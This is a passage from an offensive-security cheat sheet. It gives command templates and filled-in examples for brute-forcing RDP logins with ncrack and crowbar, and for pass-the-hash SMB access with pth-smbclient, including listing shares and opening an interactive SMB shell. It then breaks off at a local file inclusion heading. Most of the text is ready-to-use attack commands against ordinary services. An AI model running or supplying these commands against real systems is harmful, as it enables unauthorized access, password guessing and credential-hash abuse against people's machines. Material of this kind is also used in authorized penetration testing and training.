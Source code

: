 ### NCRACK

ncrack -vv --user/-U <username/username_wordlist> --pass/-P <password/password_wordlist> <target_ip>:3389

```
ncrack -vv --user user -P wordlist.txt 192.168.0.32:3389
```

### Crowbar

crowbar -b rdp <-u/-U user/user_wordlist> -c/-C <password/password_wordlist> -s <target_ip>/32 -v

```
crowbar -b rdp -u user -C password_wordlist -s 192.168.0.16/32 -v
```

## Pass the hash

### Smb pass the hash

#### Tool:

[pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)

### Listing shared folders

sudo pth-smbclient --user=<user> --pw-nt-hash -m smb3 -L <target_ip> \\\\<target_ip>\\ <hash>

```
sudo pth-smbclient --user=user --pw-nt-hash -m smb3  -L 192.168.0.24 \\\\192.168.0.24\\ ljahdçjkhadkahdkjahsdlkjahsdlkhadklad
```

### Interactive smb shell

sudo pth-smbclient --user=<user> --pw-nt-hash -m smb3 \\\\<target_ip>\\shared_folder <hash>

```
sudo pth-smbclient --user=user --pw-nt-hash -m smb3 \\\\192.168.0.24\\folder ljahdçjkhadkahdkjahsdlkjahsdlkhadklad
```

## Web Application

### Web Remote code

### LFI (Local File Inclusion)

Situation

```
http://<target>/index.php?parameter=value
```

